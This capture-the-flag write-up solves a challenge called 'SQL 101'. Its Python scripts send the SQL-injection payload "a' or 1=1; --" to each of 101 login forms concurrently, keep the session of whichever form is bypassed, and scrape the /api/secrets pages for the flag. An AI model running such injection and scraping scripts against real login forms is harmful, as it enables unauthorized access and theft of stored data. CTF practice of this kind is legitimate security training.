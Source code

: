 ## SQL 101
<p align="center">
    <img src="img/sql101_chall.png" alt="Challenge" width="500"/>
</p>

Opening the webpage we are given 101 (!) login forms.

<p align="center">
    <img src="img/sql101_website.png" alt="Webpage" width="500"/>
</p>

Our first objective is to create a script which identifies which login form is vulnerable to a SQL-injection. One of my teammates wrote the following script using multiprocessing to find the correct form, which I then extended to solve the remaining of the challenge.
```python
from multiprocessing.dummy import Pool
import re 
import requests
import time

urlbase = "https://53kilomeddata-d6f0-allthoseforms.ept.gg"
mainpage_response = requests.get(urlbase + "/login").text
format = """<form method="post" action="/login/(.+)">"""
endpoints = re.findall(format, mainpage_response)

def pr(i, e):
    url = urlbase + "/login/" + e
    login_response = requests.post(url, data={'username': "a' or 1=1; --", "password": "' or 1=1;--"})
    if "Invalid login credentials!" not in login_response.text:
        # TODO: Form is vulnerable

pool = Pool(50)
for i, e in enumerate(endpoints):
    pool.apply_async(pr, args=[i, e])
time.sleep(20)
```

When the login-form is bypassed with the SQL injection we are greeted with the following page, mentioning some API documentation located at `/api-docs` (href in html code).
<p align="center">
    <img src="img/sql101_logged_in.png" alt="Logged in" width="500"/>
</p>

The `/api-docs` webpage shows the API documentation of the endpoint `/api/secrets`, where the flag most likely is located. All we need to do is query all the pages until we find the flag.
<p align="center">
    <img src="img/sql101_api_docs.png" alt="API-docs" width="500"/>
</p>

Using the following script, `sql.py`, we search for the flag among the secrets:
```python
from multiprocessing.dummy import Pool
import re 
import requests
import time

urlbase = "https://53kilomeddata-d6f0-allthoseforms.ept.gg"
mainpage_response = requests.get(urlbase + "/login").text
format = """<form method="post" action="/login/(.+)">"""
endpoints = re.findall(format, mainpage_response)

def pr(i, e):
    url = urlbase + "/login/" + e
    login_response = requests.post(url, data={'username': "a' or 1=1; --", "password": "' or 1=1;--"})
    if "Invalid login credentials!" not in login_response.text:
        # Create a session, or else we do not keep our authentication
        s = requests.Session()
        r = s.post(url, data={'username': "a' or 1=1; --", "password": "' or 1=1;--"})
        for i in range(1, 100):
            r = s.get(urlbase + f"/api/secrets?page={i}&page_size=20")
            if "EPT" in r.text:
                res = r.json()
                for secret in res.get("secrets", []):
                    if "EPT" in secret.get("text", ""):
                        print(secret)
                        exit()

pool = Pool(50)
for i, e in enumerate(endpoints):
    pool.apply_async(pr, args=[i, e])
time.sleep(20)
```

At page 80, with id 1598, we find the flag.
```
$ python3 sql.py
{'id': 1598, 'text': 'EPT{0ae0fbea-9a8c-4b2c-8e33-b383c8c8f94f}'}
```